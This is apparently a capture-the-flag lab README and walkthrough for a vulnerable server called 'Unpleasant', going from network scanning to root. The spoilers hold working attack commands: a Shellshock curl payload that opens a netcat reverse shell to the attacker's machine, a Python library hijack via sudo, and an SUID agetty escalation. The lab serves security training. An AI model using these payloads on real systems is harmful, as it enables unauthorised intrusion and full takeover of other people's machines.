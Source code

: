 # Unpleasant
You are in a position where your friends asked you to help them. As a starting
company they want you to "hack" them, so they can fix their problems right in the
beginning. Would you mind showing off your skills? They bring you a machine with
Kali installed and place you on the same network, where their server is.

## Topology
![Game topology](./topology.svg)

Router's IP - 10.32.51.1

## How to play
You will enter Kali Linux environment on attacker machine and
your job is to get `root` account on the server.

There will be 2 flags on this server, `user.txt` to know that you are
inside the server, and `root.txt` to see that you got `root`.

In a walkthrough, there are 2 levels. The first level represents the description
about each stage - named levels. And the second level can be shown using
the spoiler in the walkthrough. You can use the first level, if you just want
to show tasks. And if you get stuck, use spoilers to show hints.

## Disclaimer
This game is only for educational purposes. Unauthorized use of the tools
that are incorporated into the game is illegal. The story is fictitious.

# Walkthrough
If you want to play it without walkthrough, just do not click on spoiler. Otherwise, you can use it if you are stuck somewhere.

<details>
<summary>Click for help</summary>

## Level 1 - Target Discovery
You have now given a VM with Kali Linux 2020.3 preinstalled here. The credentials for this Kali Linux are `kali`:`kali`. You might use these credentials twice
(do not ask me why; I ask myself this question either).

When you are performing an attack, you obviously need to know who you are going
to attack. But we did not provide you with any information about the target.

We can only assure you that the target machine is on your local network.

Now, your job here is to find out what is your network. How can you do that?
> use `ip addr` or `ifconfig`

This level should be pretty easy. You need to find the IP address of your target
machine. Can you do it without a spoiler?

><details>
>  <summary>Spoiler!</summary>
>
>  You can use
>  ```cli
>fping -ag <network> 2>/dev/null
>  ```
>
>  alternatively
>
>  ```cli
>netdiscover -r <network>
>  ```
>
>  or
>
>  ```cli
>nmap -sn <network>
>  ```
>
>  I would suggest using `fping`. It was the fastest that spot the target.
>
>  Attacker's IP (our IP) is 10.32.51.12 and the target's IP is 10.32.51.173.
>
>  Read `man` pages! <br>
>  
></details>

Note: give it some time!

## Level 2 - Target Scanning
After you examine our target, you need to find out what services they are using.
Do they allow the FTP service? Or HTTP? What ports are opened on this target?
For this kind of challenge, we use `nmap`.

> sometimes, higher ports are opened; do not forget to scan all ports,
every time!

You should experiment with the `nmap` tool, as it has some important options to use.
For instance, the `-sS` option will tell `nmap` to make SYN scan, `-sV` to get
the service version, `-O` to guess the OS, etc.

><details>
>  <summary>Spoiler!</summary>
>
>  In general, I would suggest using
>
>  ```cli
>sudo nmap -sS -T4 -A -p- <TARGET_IP> -oA all_ports
>  ```
>
>  It will scan all ports in aggressive mode, perform SYN scan, and save the
>  output in the all_ports file in greppable format (.gnmap), standard
>  output (.nmap), and XML format (.xml).
>
>  On the other hand, while this will scan for all ports,
>  you should be checking for some common ports that *might* be open, e.g. port 80,
>  443,...
>
>  Once again, read `man` page for this tool and find out what these options do!
>
>  Open ports: 22/ssh, 80/http <br>
>  
></details>

## Level 3 - Enumerate your target

We saw earlier our opened ports, probably the most iconic duo. What can you do
with this information? How can this be used? If you know, you know. If not,
check the spoiler.

><details>
>  <summary>Spoiler!</summary>
>
>  When enumerating HTTP/HTTPS, your first step should be checking the
>  `robots.txt` file. It usually contains directories that should not be
>  accessible, and it is a good idea to check if they **really are** inaccessible.
>
>  Meanwhile, in the background, you can create a new bash session and use the
>  `nikto` tool to determine if there are any vulnerabilities. Nikto is a web
>  scanner tool that tries to scan for possible vulnerabilities. Possible usage:
>
>  ```cli
>nikto -h http://<TARGET_IP>
>  ```
>
>  where `-h` is the target IP. Find out more about this tool using `--help` option!
>
>  As our next step should be directory listing. You can choose which
>  tools to use, such as `dirbuster`, `dirb`, `gobuster`, `wfuzz`, `ffuf`, etc.
>  You use wordlist such as `common.txt` or `long.txt` in the
>  `/usr/share/wordlists/dirb/` directory. Example:
>
>  ```cli
>ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://<TARGET_IP>/FUZZ -t 50
>  ```
>
>  Remember to **check `man` pages!**
>
>  If you check the details of the `nikto` output, it has detected that our target
>  might be vulnerable to the Shellshock vulnerability:
>
> `+ OSVDB-112004: /cgi-bin/printenv: Site appears vulnerable to the 'shellshock' vulnerability (http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271).`
>
>  You can find more about this vulnerability at these links:
>  https://nvd.nist.gov/vuln/detail/CVE-2014-6271
>  https://owasp.org/www-pdf-archive/Shellshock_-_Tudor_Enache.pdf
>
>  TL;DR:
>    When an HTTP request is sent to the server on a specific link,
>    a vulnerable bash version processes trailing strings after function
>    definitions in the values of environment variables.
>
>  So, with this knowledge, you can put bash code inside the HTTP request
>  header, and it will process it. Example:
>
>  ```cli
>curl -H "X-Frame-Options: () { :;}; echo 'hello'" <link>
>  ```
>
>  Although we did not see the response, we can try to create
>  a reverse shell between us and the server with this knowledge.
>
>  The term **reverse shell** means that the actual target will try to connect
>  to **our** machine on a specific port. We need the IP address (of our machine)
>  and open port. Why can we not just connect to the opened port on the target
>  machine?
>
>  We can, but reverse shells are much more used, because their
>  detection is less possible than using **bind shell** (connecting to
>  the opened port on the target machine).
>
>  We have 2 options for this to exploit: craft our payload, which
>  we can easily do using the `curl` command, or use the `metasploit` module
>  `exploit/multi/http/apache_mod_cgi_bash_env_exec` that would do the job.
>
>  I have used the `curl` way, because I find Metasploit too
>  easy for beginners to use. The more experienced you are in exploiting without
>  Metasploit, the better you can perform, and that is my opinion.
>
>  NOTE: when using `metasploit` module, do not forget to set all needed variables
>
>
>  First, we need to open port on our attacker machine. We can do this by using
>  `nc` command. Open the new terminal windows (shortcut CTRL + SHIFT + T) and
>  write down this line:
>
>```cli
>nc -lvnp 4444
>```
>
>  `-l` - listen; `-v` - verbose output; `-n` - don't resolve name, `-p` - specify
> port
>
>  Then, we can send our code to connect to our machine. We need to specify
>  options `-e` to execute `/bin/bash` after connecting to our attacker's machine
>  and the opened port. In this case, I have chosen this payload:
>
>```cli
> curl -H "User-Agent: () { :;}; /bin/nc -e /bin/bash <KALI_IP> <KALI_PORT>" http://<TARGET_IP>/cgi-bin/printenv
>```
>  <br>
>  
></details>

### Upgrade our shell - get used to it!
After using the `nc` command,
the shell we created is very unstable and uncomfortable. We can't scroll among
commands in the shell, no tab-completing, no job controlling,
no error displaying, etc. We can try to upgrade our shell.

When upgrading the shell, there are a few methods used.
My most used method is using `python`. It is easy, simple, and fast to write.
`which python` will find out if python is installed. Sometimes, we need to
check for `python3` and not `python`. Be aware of that!

We spawn a new shell using this command:
```
python -c 'import pty;pty.spawn("/bin/bash")'
```

This will create a new bash session, but we still need to do some configuration.
Stop this process using CTRL + Z, and after that we need these parameters
from your Kali machine:

`stty -a` - to get the number of rows and the number of columns currently used
(for better resolution and display settings in terminal)

`echo $TERM` - get our current terminal

After examining these values, we can now enter back into our shell with limited
functionalities. <br>
**WARNING:** if you are using other shell than zsh (`echo $SHELL`), you need
to enter these commands separately, i.e. on one line each!

`stty raw -echo; fg` - go back to our shell

When we are back, press enter, and then we need to enter values that we noted.
```
export TERM=xterm-256color
```
This is the value from the `echo $TERM` output;
```
export SHELL=/bin/bash
```
since we're using bash.
```
stty rows <ROWS> columns <COLUMNS>
```
ROWS - the number for rows, same goes for COLUMNS;

"I'm in!"

We can now look over here, using tab-completion, scrolling, and many other things,
which are available, since we upgraded the shell.

More on upgrading this shell: <br>
https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/ <br>
https://null-byte.wonderhowto.com/how-to/upgrade-dumb-shell-fully-interactive-shell-for-more-flexibility-0197224/


## Level 4 - Don't try harder - enumerate harder
Your job here is to find something that you can use for privilege escalation.

One of the first things you should check is whether `sudo -l` is enabled. This
command will check if our user has anything allowed to run without a `sudo`
password. Unfortunately, this is not the case, and we need to look for something
else.

The next step could be checking the `/etc/crontab` file. This file contains
commands that are planned to execute in an exact period. Once again, we did not
find anything interesting. :( What now?

What is the content of the `user.txt` flag?

><details>
>  <summary>Spoiler!</summary>
>  
>  Do you still remember, that we exploited the vulnerability using the website?
>  Check for files in the web directory! Credentials, credentials, credentials!
>  Although it looks like a default web application that just "spawns," it's good
>  to enumerate it; you would be surprised what you could find there (e.g. MySQL
>  credentials, or something else).
>  
>  We find the file `credentials.txt` in the `/var/www/html` directory, that
>  gives us the credentials `michael:WindOfChange`
>
>  You can log in with these credentials using the `ssh` command.
>```cli
>ssh michael@<TARGET_IP>
>```
>  write the password `WindOfChange`
>  and we're now michael!
>
>
>
></details>


## Level 5 - Straight to the top; unless...?
Cool, now that you are the "normal" user, what does it take you to become a more
privileged user? You need to use the same techniques used previously, search for
the same things, but now you can do some more things... Can you do it without
spoiler? :)

><details>
>  <summary>Spoiler!</summary>
>
>  From the `sudo -l` command, we find out that we can run the command
>  `/usr/bin/python3 /home/michael/try_it.py` as user john.
>  
>  ### Python Library Hijacking
>  In our home directory, we have a file called try_it.py. It is importing the
>  library "random" and calling it the function from it. This program will print
>  the text that is hardcoded. Let's take a closer look.
>
>  In our program we have "import random". The way that Python import
>  files/libraries is that it first lists the directory where the file is located,
>  and then searches for the script in PYTHONPATH.
>
>  More on this: <br>
>  https://docs.python.org/3/tutorial/modules.html#the-module-search-path
>
>  So, with that, we can try to create a new file called random.py and write
>  the line that we used to upgrade our shell! In the script, do not forget to add
>  a shebang (`#!/usr/bin/python3`) in the script and write down the line
>  `import pty;pty.spawn("/bin/bash")`.
>  We just need to ensure that we added the right lines to spawn a shell.
>
>  The content of the random.py file in the same directory, where we have try_it.py:
>```py
>#!/usr/bin/python3
>import pty
>pty.spawn("/bin/bash")
>```
>  
>  After that, we need to figure out, how to execute the command as another user.
>  Since `runuser` or `su` didn't work out, we finally got the right command!
>```cli
>sudo -u john /usr/bin/python3 /home/michael/try_it.py
>```
>  Now we're the user john! :)
>
></details>

## Level 6 - got root?
Let me introduce you to John, probably the most privileged user, but still
not root.

This level should be fairly easy, if you know what to look for.

What is the content of the `root.txt` flag?

><details>
>  <summary>Spoiler!</summary>
>
>  A little surprise in home directory :)
>  In john's home directory, we have a binary called agetty. This binary has an
>  SUID bit set. We can check, if this binary is not in the list of the binaries,
>  that can be used for privilege escalation. The list is on this website:
>  https://gtfobins.github.io/
>
>  The binary agetty is listed right as a second one. This website tells us,
>  if this binary file has an SUID set, it is possible to escalate our privileges
>  It also tells us the command to use for this privilege escalation,
>  so let's try it! We made a little change, so we spawn a bash session, and not
>  a simple shell session.
>```cli
>./agetty -o -p -l /bin/bash -a root tty
>```
>
>  Now, we got a new bash session. To check, if we are really on a root account,
>  use the `id` command.
>
>  Search for the root.txt file:
>```cli
>find / -type f -name "root.txt" -exec cat {} \; 2>/dev/null
>```
>
></details>

</details>
